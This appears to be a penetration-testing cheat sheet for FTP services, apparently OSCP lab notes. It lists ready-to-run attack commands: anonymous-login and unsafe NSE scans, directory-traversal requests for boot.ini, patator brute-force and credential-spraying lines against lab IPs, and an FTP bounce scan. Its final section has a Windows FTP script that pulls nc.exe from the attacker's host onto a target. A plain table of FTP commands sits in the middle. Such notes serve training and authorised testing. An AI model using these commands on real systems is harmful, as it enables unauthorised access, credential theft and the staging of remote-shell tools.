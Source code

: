 ## Scan for anonymous FTP
```
nmap ‐v ‐p 21 -­‐script=ftp‐anon.nse 192.168.11.200-254
```

## NSE
```
nmap --script=*ftp* --script-args=unsafe=1 -p 20,21 <IP>
```

## Anonymous login
```
ftp ip_address
Username: anonymous
Password: any@email.com (if prompted)
```

## Clone 

```
wget -r --no-passive ftp://(USERNAME):(PASSWORD)@(TARGET IP ADDRESS)
```

## Bruteforce

`Hydra`
`Medusa`
`Brutus`

## Config files
```
ftpusers
ftp.conf
proftpd.conf
```

## MITM
- pasvagg.pl: https://packetstormsecurity.com/0007-exploits/pasvagg.pl

## Common FTP Commands

`send`

```
GET ../../../boot.ini
GET ../../../../../../boot.ini
MGET ../../../boot.ini
MGET ../../../../../../boot.ini
```

| Command | Description  |
| :------ | :----------- |
| ? |	Request help |
| ascii |	Set the mode of file transfer to ASCII (default / transmits 7bits per character) |
| binary | Set the mode of file transfer to binary (transmits all 8bits per byte and thus provides less chance of a transmission error and must be used to transmit files other than ASCII files)
| bye |	Exit the FTP environment (same as quit) |
| cd	| Change directory on the remote machine |
| close |	Rerminate a connection with another computer |
| close brubeck	| Closes the current FTP connection with brubeck, but still leaves you within the FTP environment. |
| delete |	Delete a file in the current remote directory (same as rm in UNIX)
| get |	Copy one file from the remote machine to the local machine |
| get ABC DEF |	Copies file ABC in the current remote directory to (or on top of) a file named DEF in your current local directory. |
| get ABC	| Copies file ABC in the current remote directory to (or on top of) a file with the same name, ABC, in your current local directory. |
| help	| Request a list of all available FTP command |
| lcd	| Change directory on your local machine (same as UNIX cd) |
| ls	| List the names of the files in the current remote directory |
| mkdir	| Make a new directory within the current remote directory |
| mget	| Copy multiple files from the remote machine to the local machine; you are prompted for a y/n answer before transferring each file |
| mget * | Copies all the files in the current remote directory to your current local directory, using the same filenames. Notice the use of the wild card character, *. |
| mput	| Copy multiple files from the local machine to the remote machine; you are prompted for a y/n answer before transferring each file |
| open	| Open a connection with another computer |
| open brubeck | Opens a new FTP connection with brubeck; you must enter a username and password for a brubeck account (unless it is to be an anonymous connection). |
| put	| Copy one file from the local machine to the remote machine |
| pwd	| Find out the pathname of the current directory on the remote machine |
| quit	| Exit the FTP environment (same as bye) |
| rmdir	| Remove a directory in the current remote directory |


## Bruteforcing 
```
patator ftp_login host=10.11.1.220 port=21 user=COMBO0 password=COMBO01 0=/root/oscp/lab-net2019/combo-creds.txt -x ignore:fgrep=’Login or password incorrect’

patator ftp_login host=/root/oscp/lab-net2019/ftp-open.txt port=21 user=COMBO0 password=COMBO01 0=/root/oscp/lab-net2019/combo-creds.txt -x ignore:fgrep=’Login or password incorrect’

patator ftp_login host=FILE0 port=21 user=COMBO0 password=COMBO1 0=/root/oscp/lab-net2019/ftp-open.txt 1=/root/oscp/lab-net2019/combo-creds.txt -x ignore:fgrep=’Login or password incorrect’ -x ignore:fgrep=’cannot log in.’ -x ignore:fgrep=’Login incorrect’ -l ftp_spray
```

## TCP FTP Bounce Scan
```
nmap –top-ports 1000 -vv -Pn -b anonymous:password@10.11.1.125:21 127.0.0.1
```

## Script FTP 

```
echo open (YOUR IP) 21 > C:\share\ftp.txt (Writeable Directory on target)
echo USER pwnt >> C:\share\ftp.txt
echo passwd >> C:\share\ftp.txt (Password for your FTP Server)
echo bin >> C:\share\ftp.txt (Sets transfer up for binary files/bytes)
echo GET nc.exe C:\share\nc.exe>> C:\share\ftp.txt
echo bye >> C:\share\ftp.txt
```
```
ftp -v -n -s:C:\share\ftp.txt
```